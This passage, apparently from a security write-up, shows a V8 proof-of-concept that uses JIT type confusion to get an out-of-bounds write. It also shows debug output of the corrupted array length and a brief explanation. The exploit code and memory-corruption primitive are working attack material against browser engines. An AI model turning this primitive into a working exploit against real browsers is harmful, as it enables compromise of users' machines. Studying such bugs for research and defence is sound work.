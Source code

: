 ```js
        // !!!!!!!! This changes the doubles (8 bytes) into object(4 bytes compressed pointers)
        // !!!!!!!! For doubles, it get changed into object called HeapNumber object which points to the 8 bytes double value.
        a[0] = {};
        // start off by using doubles. Since data will be stored as 8 bytes
        b = [0.2, 1.2, 2.2, 3.2, 4.3];
        return Object.prototype;
    }
});

function main(o) {
  return f(o);
}

// the %xxxxxxxxxxxx are specifically for d8 with --allow-natives-syntax flag set
%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);
// The first two main would push the value onto the array a
main(empty);
main(empty);
%OptimizeFunctionOnNextCall(main);
// After optimization, the type confusion would be present and it would push
main(p);
console.log(b.length);   // prints 819 since
```
  
The main takeaway from the above POC is that once the type confusion sets in, the map of array `a` is thought to contain `HOLEY_DOUBLE_ELEMENTS`. After setting the first element of array `a` to an object, it allows us to write in 8 bytes instead of the supposed 4 bytes thus causing the out-of-bound write thus corrupting the length of the `oob_array` in the heap.

 This is the DebugPrint message for `oob_Array` after the corruption of the length

 ```

d8> %DebugPrint(oob_Array)
DebugPrint: 000003F50808A55D: [JSArray]
 - map: 0x03f508241891 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x03f508208dcd <JSArray[0]>
 - elements: 0x03f50808a52d <FixedDoubleArray[5]> [PACKED_DOUBLE_ELEMENTS]
 - length: -961045068                      <----- length corrupted>
 - properties: 0x03f5080406e9 <FixedArray[0]> {
    #length: 0x03f508180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x03f50808a52d <FixedDoubleArray[5]> {
           0: 0.1
           1: 0.2
           2: 0.3
           3: 0.4
           4: 0.5
 }
000003F508241891: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x03f508241869 <Map(HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x03f508180451 <Cell value= 1>
 - instance descriptors #1: 0x03f508209455 <DescriptorArray[1]>
 - transitions #1: 0x03f5082094a1 <TransitionArray[4]>Transition array #1:
     0x03f508042eb9 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x03f5082418b9 <Map(HOLEY_DOUBLE_ELEMENTS)>
